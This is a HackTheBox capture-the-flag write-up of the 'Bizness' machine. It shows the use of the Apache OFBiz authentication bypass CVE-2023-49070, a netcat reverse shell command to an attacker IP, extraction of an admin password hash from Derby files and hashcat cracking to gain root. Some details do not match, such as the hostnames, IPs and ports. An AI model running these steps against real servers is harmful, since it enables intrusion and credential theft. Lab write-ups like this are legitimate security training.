 ```yaml
---
title: Bizness
tags:
  - Linux
  - Apache
  - Brute-Forcing
  - HackTheBox
---
```

![](Pasted%20image%2020240501195939.png)

## Reconnaissance

Firstly, I added the new host to my known ones:

```shell
sudo echo "10.10.59.31 headless.htb" | sudo tee -a /etc/hosts
```

Secondly, I started performing an `Nmap` scan with:

```shell
nmap -sC -T4 -p- headless.htb > sC.txt

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-01 18:33 CEST
Nmap scan report for bizness.htb (10.10.11.252)
Host is up (0.041s latency).
Not shown: 65531 closed tcp ports (conn-refused)
PORT      STATE SERVICE
22/tcp    open  ssh
| ssh-hostkey: 
|   3072 3e:21:d5:dc:2e:61:eb:8f:a6:3b:24:2a:b7:1c:05:d3 (RSA)
|   256 39:11:42:3f:0c:25:00:08:d7:2f:1b:51:e0:43:9d:85 (ECDSA)
|_  256 b0:6f:a0:0a:9e:df:b1:7a:49:78:86:b2:35:40:ec:95 (ED25519)
80/tcp    open  http
|_http-title: Did not follow redirect to https://bizness.htb/
443/tcp   open  https
| ssl-cert: Subject: organizationName=Internet Widgits Pty Ltd/stateOrProvinceName=Some-State/countryName=UK
| Not valid before: 2023-12-14T20:03:40
|_Not valid after:  2328-11-10T20:03:40
| tls-alpn: 
|_  http/1.1
|_http-title: BizNess Incorporated
| tls-nextprotoneg: 
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
39467/tcp open  unknown
```

Then I went to take a look to the webpage and its code:

![](Pasted%20image%2020240501200309.png)

I did not found anything into it, so I decided to perform a `dirsearch` to the web
- More info in [dirsearch 📁](/notes/Tools/dirsearch.md)

![](Pasted%20image%2020240501200559.png)

I found the direction `/control/login`, which landed me into a login page:

![](Pasted%20image%2020240501200706.png)

> Obviously the `admin:admin` didn't work :<

After analyzing the petition with Burp and obtained nothing, I decided to search for `Apache OFBiz` and discovered the **CVE-2023-49070**

## Weaponization

Consulting in Github I found [Apache OFBiz Authentication Bypass](https://github.com/jakabakos/Apache-OFBiz-Authentication-Bypass/tree/master?tab=readme-ov-file) exploit, which I cloned and executed:

## Exploitation


```shell
python3 exploit.py --url https://bizness.htb                                         
[+] Scanning started...
[+] Apache OFBiz instance seems to be vulnerable.
```

Now I try to obtain a shell and stabylize it:
- More info in [Reverse shells 👾](/notes/reverse_shells.md)

```shell
python3 exploit.py --url https://bizness.htb --cmd 'nc -e /bin/bash 10.10.14.110 666'
```

And I got a shell:

```shell
└─$ nc -lvp 777
listening on [any] 777 ...
connect to [10.10.14.110] from bizness.htb [10.10.11.252] 60690
python3 -c "import pty; pty.spawn('/bin/bash')"
ofbiz@bizness:/opt/ofbiz$ export TERM=xterm
export TERM=xterm
ofbiz@bizness:/opt/ofbiz$ ^Z
zsh: suspended  nc -lvp 777
                                                                                                                    
┌──(gitblanc㉿playbook)-[~/HackTheBox]
└─$ stty raw -echo; fg
[1]  + continued  nc -lvp 777
                             ls
APACHE2_HEADER  DOCKER.md                INSTALL              README.adoc
applications    docs                     lib                  runtime
build           framework                LICENSE              SECURITY.md
build.gradle    gradle                   linpeas.sh           settings.gradle
common.gradle   gradle.properties        NOTICE               themes
config          gradlew                  npm-shrinkwrap.json  VERSION
docker          gradlew.bat              OPTIONAL_LIBRARIES
Dockerfile      init-gradle-wrapper.bat  plugins
ofbiz@bizness:/opt/ofbiz$
```

### User flag

```shell
ofbiz@bizness:/opt/ofbiz$ cat /home/ofbiz/user.txt 
XXXXXXXXXXXXXXXXXXXXXXXX
```

## Privilege Escalation

Now, as I know that Apache OFBiz is running, i read a little their [docs](https://cwiki.apache.org/confluence/display/OFBIZ/Home), and find out that they use a Derby database, so I searched for it:

```shell
find / -type d -iname "derby" 2> /dev/null

/home/ofbiz/.gradle/caches/modules-2/files-2.1/org.apache.derby/derby
/home/ofbiz/.gradle/caches/modules-2/metadata-2.69/descriptors/org.apache.derby/derby
/opt/ofbiz/runtime/data/derby
```

I found a binary and a lot of `.dat` files on the `/seg0` directory, so I tried to find the admin password by using the following command:

```shell
find *.dat | xargs grep -a -i "currentPassword="
c54d0.dat:  
<eeval-UserLogin createdStamp="2023-12-16 03:40:23.643" createdTxStamp="2023-12-16 03:40:23.445" currentPassword="$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I" enabled="Y" hasLoggedOut="N" lastUpdatedStamp="2023-12-16 03:44:54.272" lastUpdatedTxStamp="2023-12-16 03:44:54.213" requirePasswordChange="N" userLoginId="admin"/>
```

> It also works by doing `strings dir.txt | grep SHA`, but you should have known previously the format of the hash

As I didn't know the hashing function, I went to see the source code of [Apache OFBiz](https://github.com/apache/ofbiz/blob/trunk/framework/base/src/main/java/org/apache/ofbiz/base/crypto/HashCrypt.java) and found the hash function that first performed a hex Encoding and then a base64 encoding:

![](Pasted%20image%2020240501203114.png)

![](Pasted%20image%2020240501203204.png)

Then, after knowing this I decoded it on [Cyberchef](https://cyberchef.org/)

![](Pasted%20image%2020240501203313.png)

Now I did brute force to it using **Hashcat** (using `d` as the salt):
- For more info check [Crack Password Hashes (Sites) 🤡](/notes/crack_password_hashes.md)

```shell
hashcat -a 0 -m 120 b8fd3f41a541a435857a8f3e751cc3a91c174362:d /usr/share/wordlists/rockyou.txt --show

b8fd3f41a541a435857a8f3e751cc3a91c174362:d:monkeybizness
```

## Root flag

Now I logged as root and got the flag:

```shell
su root

cat /root/root.txt
XXXXXXXXXXXXXXXXXXXXXXXX
```

==Machine pwned==
